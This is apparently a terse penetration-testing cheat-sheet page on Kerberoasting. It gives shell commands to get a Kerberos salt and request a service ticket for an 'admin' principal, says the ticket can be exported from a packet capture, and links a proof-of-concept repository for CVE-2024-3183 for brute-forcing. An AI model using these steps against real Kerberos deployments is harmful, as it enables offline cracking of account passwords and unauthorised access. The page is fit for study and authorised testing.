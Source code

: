 # Kerberoasting

#### Get salt

`printf "%b" "0\n" | KRB5_TRACE=/dev/stdout kinit admin | grep salt`&#x20;

#### Get tgs

`kvno admin`&#x20;

Then we can export from pcap dump  ![](../../../.gitbook/assets/изображение.png)

#### Brute

[https://github.com/Cyxow/CVE-2024-3183-POC](https://github.com/Cyxow/CVE-2024-3183-POC/tree/main)
